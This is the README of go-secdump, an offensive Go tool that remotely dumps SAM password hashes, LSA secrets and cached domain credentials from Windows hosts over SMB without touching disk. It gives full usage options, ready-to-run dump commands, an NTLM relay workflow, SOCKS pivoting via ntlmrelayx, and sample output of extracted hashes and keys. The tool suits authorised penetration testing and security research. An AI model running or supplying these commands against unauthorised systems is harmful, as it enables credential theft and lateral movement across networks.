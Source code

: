 # go-secdump

## Description
Package go-secdump is a tool built to remotely extract hashes from the SAM
registry hive as well as LSA secrets and cached hashes from the SECURITY hive
without any remote agent and without touching disk.

The tool is built on top of the library [go-smb](https://github.com/jfjallid/go-smb)
and use it to communicate with the Windows Remote Registry to retrieve registry
keys directly from memory.

It was built as a learning experience and as a proof of concept that it should
be possible to remotely retrieve the NT Hashes from the SAM hive and the LSA
secrets as well as domain cached credentials without having to first save the
registry hives to disk and then parse them locally.

The main problem to overcome was that the SAM and SECURITY hives are only
readable by NT AUTHORITY\SYSTEM. However, I noticed that the local group
administrators had the WriteDACL permission on the registry hives and could
thus be used to temporarily grant read access to itself to retrieve the
secrets and then restore the original permissions.

However, a better approach was discovered (February 2025) by Julien Egloff
over at Synacktiv. The BaseRegOpenKey request used to open handles to registry
keys has an option to assert the SeBackupPrivilege which allows us to open the
registry keys without first changing the DACLs.
The tool has been updated to prefer this new approach and only change the DACLs
if asked nicely.

## Credits
Much of the code in this project is inspired/taken from Impacket's secdump
but converted to access the Windows registry remotely and to only access the
required registry keys.

Some of the other sources that have been useful to understanding the registry
structure and encryption methods are listed below: 

https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

http://www.beginningtoseethelight.org/ntsecurity/index.htm

https://social.technet.microsoft.com/Forums/en-US/6e3c4486-f3a1-4d4e-9f5c-bdacdb245cfd/how-are-ntlm-hashes-stored-under-the-v-key-in-the-sam?forum=win10itprogeneral

The idea to use SeBackupPrivilege came from Synacktiv:
https://www.synacktiv.com/publications/lsa-secrets-revisiting-secretsdump

## Usage
```
Usage: ./go-secdump [options]

options:
      --host <target>       Hostname or ip address of remote server. Must be hostname when using Kerberos
  -P, --port <port>         SMB Port (default 445)
  -d, --domain <domain>     Domain name to use for login
  -u, --user <username>     Username
  -p, --pass <pass>         Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash <NT Hash>      Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -k, --kerberos            Use Kerberos authentication. (KRB5CCNAME will be checked on Linux)
      --dc-ip               Optionally specify ip of KDC when using Kerberos authentication
      --target-ip           Optionally specify ip of target when using Kerberos authentication
      --aes-key             Use a hex encoded AES128/256 key for Kerberos authentication
      --dump                Saves the SAM and SECURITY hives to disk and
                            transfers them to the local machine.
      --sam                 Extract secrets from the SAM hive explicitly. Only other explicit targets are included.
      --lsa                 Extract LSA secrets explicitly. Only other explicit targets are included.
      --dcc2                Extract DCC2 caches explicitly. Only ohter explicit targets are included.
      --modify-dacl         Change DACLs of reg keys before dump.
                            Only required if keys cannot be opened using SeBackupPrivilege. (default false)
      --backup-dacl         Save original DACLs to disk before modification
      --restore-dacl        Restore DACLs using disk backup. Could be useful if automated restore fails.
      --backup-file         Filename for DACL backup (default dacl.backup)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
  -t, --timeout             Dial timeout in seconds (default 5)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -o, --output              Filename for writing results (default is stdout). Will append to file if it exists.
  -v, --version             Show version

```

## Changing DACLs
Now only as an optional feature enabled with `--modify-dacl`,
go-secdump will automatically try to modify and then restore the DACLs of the
required registry keys. However, if something goes wrong during the restoration
part such as a network disconnect or other interrupt, the remote registry will
be left with the modified DACLs.

Using the `--backup-dacl` argument it is possible to store a serialized copy of
the original DACLs before modification.
If a connectivity problem occurs, the DACLs can later be restored from file
using the `--restore-dacl` argument.

## Examples

Dump all registry secrets using the SeBackupPrivilege trick

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local
or
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2
```

Dump only SAM, LSA, or DCC2 cache secrets

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2
```

### NTLM Relaying
Dump registry secrets using NTLM relaying

Start listener
```
./go-secdump --host 192.168.0.100 -n --relay
```

Trigger an auth to your machine from a client with administrative access to
192.168.0.100 somehow and then wait for the dumped secrets.

```
YYYY/MM/DD HH:MM:SS smb [Notice] Client connected from 192.168.0.30:49805
YYYY/MM/DD HH:MM:SS smb [Notice] Client (192.168.0.30:49805) successfully authenticated as (domain.local\Administrator) against (192.168.0.100:445)!
Net-NTLMv2 Hash: Administrator::domain.local:34f4533b697afc39:b4dcafebabedd12deadbeeffef1cea36:010100000deadbeef59d13adc22dda0
2023/12/13 14:47:28 [Notice] [+] Signing is NOT required
2023/12/13 14:47:28 [Notice] [+] Login successful as domain.local\Administrator
[*] Dumping local SAM hashes
Name: Administrator
RID: 500
NT: 2727D7906A776A77B34D0430EAACD2C5

Name: Guest
RID: 501
NT: <empty>

Name: DefaultAccount
RID: 503
NT: <empty>

Name: WDAGUtilityAccount
RID: 504
NT: <empty>

[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: 0x15deadbeef645e75b38a50a52bdb67b4
$MACHINE.ACC:plain_password_hex:47331e26f48208a7807cafeababe267261f79fdc38c740b3bdeadbeef7277d696bcafebabea62bb5247ac63be764401adeadbeef4563cafebabe43692deadbeef03f...
[*] DPAPI_SYSTEM
dpapi_machinekey: 0x8afa12897d53deadbeefbd82593f6df04de9c100
dpapi_userkey: 0x706e1cdea9a8a58cafebabe4a34e23bc5efa8939
[*] NL$KM
NL$KM: 0x53aa4b3d0deadbeef42f01ef138c6a74
[*] Dumping cached domain credentials (domain/username:hash)
DOMAIN.LOCAL/Administrator:$DCC2$10240#Administrator#97070d085deadbeef22cafebabedd1ab
...
```

### SOCKS Proxy
Dump secrets using an upstream SOCKS5 proxy either for pivoting or to take
advantage of Impacket's ntlmrelayx.py SOCKS server functionality.

When using ntlmrelayx.py as the upstream proxy, the provided username must match
that of the authenticated client, but the password can be empty.

```
./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server
...

./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080
```
